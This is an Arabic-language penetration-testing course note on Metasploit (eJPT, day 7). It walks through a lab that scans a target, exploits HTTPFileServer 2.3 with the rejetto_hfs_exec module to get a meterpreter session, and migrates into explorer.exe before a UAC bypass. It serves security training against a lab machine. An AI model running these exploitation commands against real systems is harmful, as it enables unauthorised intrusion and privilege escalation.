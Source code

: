 # Session 7 (ejpt) - Day 7
##  Host & Network Penetration Testing: The Metasploit Framework (MSF) part2


السلام عليكم ورحمة الله وبركاته  

اليوم باذن الله راح نبدا من الي وقفنا عليه امس  

---

راح نبداء باللاب الاول الي هو  

UAC Bypass: Memory Injection (Metasploit) 
-----------------------------------------|  

طبعا في هذا اللاب راح نتكلم عن احد الطرق في الـ Advance Privilege Escalation والي هو Windows: UAC Bypass  


طبعا الـ UAC Bypass يكون injection in dll  

خلونا نبدا  

طبعا زي مانشوف معطينا التارقت راح نفحصه بالـ nmpa  
```bash
nmap -sV -sC 10.0.23.239  
```  

طبعا زي مانشوف البورتات الفتوحه طبعا الي يهمنا منها بورت 80  

نشوف انه شغال عليه HTTPFileServer httpd 2.3  

وهذا السيرفر بهالاصدار مصاب زي مانعرف وسبق واستغليناه باداة الـ msfconsole  

راح نستغله الان بنفس الطريقه  
```bash
msfconsole  
use exploit/windows/http/rejetto_hfs_exec  
set RHOSTS 10.0.23.239  
exploit  
```  

وزي مانشوف الان عطانا meterpreter session  

طيب خلونا نشوف ايش صلاحيتنا وايش اليوزر الي معنا عن طريق هذي الاوامر في الـ meterpreter session  
```bash
getuid [ to identify Server username ]  
sysinfo [ to list out information about target machine such as (OS , Architecture , Logged on Users etc...) ]  
```  

طبعا الان راح نحاول نرفع صلاحيتنا لكن بالاول راح نتوجه لبروسس اخر زي ماقلنا عشان الاتصال يكون مستقر ونبعد عن انه يقطع علينا الاتصال في اي لحظه  
```bash
ps -S explorer.exe [ to identify the process id  ]  
migrate $PID  [ to migrate to specific process via process id ]  
```  
